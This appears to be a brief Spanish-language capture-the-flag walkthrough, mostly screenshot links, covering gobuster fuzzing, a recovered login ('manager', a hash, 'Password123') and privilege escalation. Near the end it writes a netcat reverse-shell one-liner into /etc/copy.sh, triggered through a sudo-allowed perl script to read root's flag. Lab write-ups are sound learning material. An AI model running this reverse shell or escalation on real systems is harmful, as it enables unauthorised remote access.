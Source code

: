 # NMAP

![alt text](image.png)

# WEB

![alt text](image-1.png)

# Fuzzing

    gobuster dir -u http://10.10.109.205/ -w /usr/share/wordlists/dirb/common.txt

![alt text](image-2.png)

![alt text](image-3.png)

Hacemos fuzzing a la ruta encontrada

![alt text](image-4.png)

![alt text](image-5.png)

![alt text](image-6.png)

![alt text](image-7.png)

![alt text](image-8.png)

manager

42f749ade7f9e195bf475f37a44cafcb

![alt text](image-9.png)

Password123

![alt text](image-10.png)

![alt text](image-11.png)

![alt text](image-12.png)

    python -c 'import pty; pty.spawn("/bin/bash")'

![alt text](image-13.png)

![alt text](image-14.png)

![alt text](image-15.png)

![alt text](image-16.png)

    echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.67.209 4444 >/tmp/f' > /etc/copy.sh

    sudo /usr/bin/perl /home/itguy/backup.pl

![alt text](image-17.png)

![alt text](image-18.png)

cat /root/root.txt